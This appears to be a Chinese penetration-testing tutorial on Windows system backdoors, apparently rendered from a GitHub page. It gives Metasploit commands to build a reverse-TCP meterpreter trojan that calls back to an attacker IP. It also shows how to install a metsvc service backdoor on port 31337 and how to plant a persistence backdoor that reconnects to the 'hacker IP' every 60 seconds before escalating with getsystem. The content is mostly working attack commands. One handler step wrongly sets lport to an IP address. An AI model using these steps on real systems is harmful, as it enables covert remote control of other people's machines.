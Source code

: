 # 渗透测试基础14

# 认识系统后门（msf创建系统后门、利用nc上传文件安插后门、黑客操作关键、下载本质、使用vbs去远程下载文件、cmd,certutil下载文件、使用cmd,bitsadmin下载、使用js下载、使用ftp脚本、kali的meterpreter其他命令）

## meterpreter创建系统后门

1. 创建x64木马

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.120 lport=4444 -f exe > msf.exe
```

2. 生成木马后，放到桌面上。

```
use exploit/multi/handler
set payload windows/metsvc_bind_tcp
show options
set lport 192.168.1.120
exploit
```

上述木马是运行在内存里的，可以通过关闭进程然后干掉木马。



3. **通过服务启动**：

```
run metsvc -A    # 设定端口上传后门文件
```

【会开启一个31337端口，然后木马存在于C:\Users\ADMINI~1\APPData\Local\Teemp\FWnOkowKpbzilqs】

4. **如何利用后门**:

```
use exploit/multi/handler
set payload windows/metsvc_bind_tcp
set lport 31337
set rhost [对方的ip]
exploit
```

5. **或**：**在session中启动利用后门**

   ```
   run persistence -A -S -U -i 60 -p 4321 -r [黑客ip]
   # 安插一个永久性后门，60s上线一次，使用4321端口
   
   sessions
   # 发现多了一个session6
   
   sessions -i 6
   # 进入session
   
   getuid
   getsystem
   getuid
   
   # 然后重启/注销
   ```
